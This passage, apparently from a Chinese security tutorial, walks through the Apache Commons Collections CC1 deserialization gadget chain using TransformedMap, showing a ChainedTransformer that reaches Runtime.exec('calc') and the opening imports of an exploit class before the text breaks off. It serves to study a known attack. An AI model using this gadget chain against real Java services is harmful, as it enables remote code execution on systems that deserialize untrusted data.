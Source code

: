 [![](assets/1701612311-2a10f094c9f969a9b7e693d9f46964b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235141-fe79957a-20cb-1.png)

我们步入看一下最后 value 对应的什么值：

[![](assets/1701612311-3f034600c5921bc9802225ce301a9bf1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235148-02905f22-20cc-1.png)

所以这里需要修改这个值：

这里我们调用这个地方我们可以发现，不管最后 transform 是什么值，都会返回对应的 constant 值，所以我们就可以把 Runtime 设为这个固定值。

```bash
public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
```

```bash
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

这样我们最后的 value 就固定为 Runtime.class 了

### EXP(CC1Transformedmap)：

```bash
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
```